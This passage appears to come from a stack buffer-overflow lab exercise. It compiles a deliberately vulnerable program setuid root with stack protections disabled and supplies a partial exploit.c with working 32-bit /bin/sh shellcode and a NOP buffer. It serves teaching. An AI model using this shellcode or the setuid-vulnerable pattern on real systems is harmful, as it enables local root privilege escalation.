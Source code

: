    ```c
     badfile = fopen("badfile", "r");
     fread(str, sizeof(char), 517, badfile);
     bof(str);
     printf("Returned Properly\n");
     return 1;
   }
   ```

3. Compile the Vulnerable Program and make it  set-root-uid. You can achieve this by compiling it in the root account,  and chmod the executable to 4755:

   ```shell
   $ su root
     Password (enter root password)
   # gcc -o stack -z execstack -fno-stack-protector stack.c
   # chmod 4755 stack
   # exit
   ```

4. Complete the vulnerability code. We provide you  with a partially completed exploit code called "exploit.c". The goal of  this code is to construct contents for "badfile". In this code, the  shellcode is given to you. You need to develop the rest.

   ```c
   /*exploit.c*/
   /*A program that creates a file containing code for launching shell*/
   #include <stdlib.h>
   #include <stdio.h>
   #include <string.h>
   /*Shellcode as follow is for linux 32bit. If your linux is a 64bit system, you need to replace "code[]" with the 64bit shellcode we talked above.*/
   const char code[] =
     "\x31\xc0" /*Line 1: xorl %eax,%eax*/
     "\x50" /*Line 2: pushl %eax*/
     "\x68""//sh" /*Line 3: pushl $0x68732f2f*/
     "\x68""/bin" /*Line 4: pushl $0x6e69622f*/
     "\x89\xe3" /*Line 5: movl %esp,%ebx*/
     "\x50" /*Line 6: pushl %eax*/
     "\x53" /*Line 7: pushl %ebx*/
     "\x89\xe1" /*Line 8: movl %esp,%ecx*/
     "\x99" /*Line 9: cdq*/
     "\xb0\x0b" /*Line 10: movb $0x0b,%al*/
     "\xcd\x80" /*Line 11: int $0x80*/
     ;
   void main(int argc, char **argv) { 
     char buffer[517]; 
     FILE *badfile;
     
     /* Initialize buffer with 0x90 (NOP instruction) */
     memset(&buffer, 0x90, 517);
     
     /* You need to fill the buffer with appropriate contents here */
     
     /* Save the contents to the file "badfile" */
     badfile = fopen("./badfile", "w");
     fwrite(buffer, 517, 1, badfile);
     fclose(badfile);
     }
   ```
